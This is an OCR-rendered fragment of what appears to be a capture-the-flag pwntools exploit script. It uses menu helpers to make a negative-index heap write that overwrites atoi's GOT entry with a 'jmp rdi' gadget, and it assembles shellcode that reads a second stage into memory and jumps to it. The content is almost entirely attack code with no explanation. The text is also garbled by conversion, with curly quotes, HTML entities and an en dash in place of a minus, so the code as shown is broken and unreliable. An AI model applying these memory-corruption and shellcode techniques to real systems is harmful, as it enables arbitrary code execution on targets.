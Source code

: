def choice(cho):

    p.recvuntil(‘choice &gt;&gt;’)

    p.sendline(str(cho))

​

def add(idx, size, content):

    choice(1)

    p.recvuntil(‘index’)

    p.sendline(str(idx))

    p.recvline(‘size’)

    p.sendline(str(size))

    p.recvline(‘content’)

    p.sendline(content)

​

def delete(idx):

    choice(4)

    p.recvuntil(‘index:’)

    p.sendline(str(idx))

​

​

# offset: -22 -&gt; puts_got

# offset: -25 -&gt; free_got

# offset: -14 -&gt; atoi

​

shellcode = asm(“xor rax,rax;mov dl,0x80;mov rsi,rbp;push rax;pop rdi;syscall;jmp rbp”)

print(len(shellcode))

​

add(0,8,“flag”)

delete(0)

add(–14, 8, asm(“jmp rdi”))

# pause()

